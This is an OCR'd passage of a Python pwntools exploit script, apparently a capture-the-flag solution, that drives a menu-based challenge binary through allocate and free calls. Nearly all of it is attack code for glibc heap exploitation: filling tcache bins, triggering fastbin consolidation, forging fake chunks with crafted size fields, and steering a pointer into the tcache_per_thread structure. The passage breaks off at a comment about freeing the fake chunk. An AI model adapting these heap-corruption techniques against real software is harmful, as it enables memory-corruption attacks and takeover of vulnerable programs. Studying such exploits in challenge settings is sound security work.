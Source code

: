 ```python
    global index
    sla(b"> ",b"1")
    sla(b"size: ",str(size).encode())
    sla(b"offset: ",str(offset).encode())
    sa(b"buffer: ",data)
    dictt[name] = index
    index += 1

def free(name):
    sla(b"> ",b"2")
    sla(b"idx: ",str(dictt[name]).encode())

def gimme_dinner():
    sla(b"> ",b"3")

context.aslr = False

p = start()

# WE CAN ALLOCATE A TOTAL OF 128 CHUNKS

# IDK COULD BE USEFUL
malloc(0x18,b"S1","v1")

# FILLING UP AN 0X70 TCACHE AND THEN PLACING POINTERS 
# AT PLACES USING FASTBINS
for i in range (9):
    malloc(0x70,b"sugu",f"s{i}")

for i in range (9):
    free(f"s{i}")

# CAUSING A MALLOC CONSOLIDATE CALL TO COALESCE FASTBINS
fake_chnk = p64(0x0) + p64(0x291) + 0x288*b"a" + p64(0x191)
malloc(0x490,fake_chnk,"c1",offset=0x70)

# FILLING UP TCACHE CHUNKS OF SIZE-RANGE
for i in range (8):
    malloc(0x288,b"sugu",f"tfill{i}")

malloc(0x18,b"FENCEPOST",f"post1")

# FILL UP THE TCACHE FOR THE SIZE 0X291
for i in range (7):
    free(f"tfill{i}")

# CURRENT GOAL IS TO PLACE A POINTER IN TCACHE_PER_THREAD STRUCTURE
# PLACING PTRS USING MALLOC CONSOLIDATE
for i in range (9):
    malloc(0x70,b"sugu",f"r{i}")

for i in range (9):
    free(f"r{i}")

# CRAFTING THE CHUNK TO PUT A TCACHE CHUNK PTR
fake_chnk = p64(0x0) + p64(0x551) + 0x548*b"a" + p64(0x61)
malloc(0x600,fake_chnk,"POP",offset=0x70)

malloc(0x18,b"FENCEPOST","post2")
malloc(0x420,b"CLAYCHUNK","SF1")
malloc(0x18,b"FENCEPOST","post3")

# FREEING FAKE CHUNK
```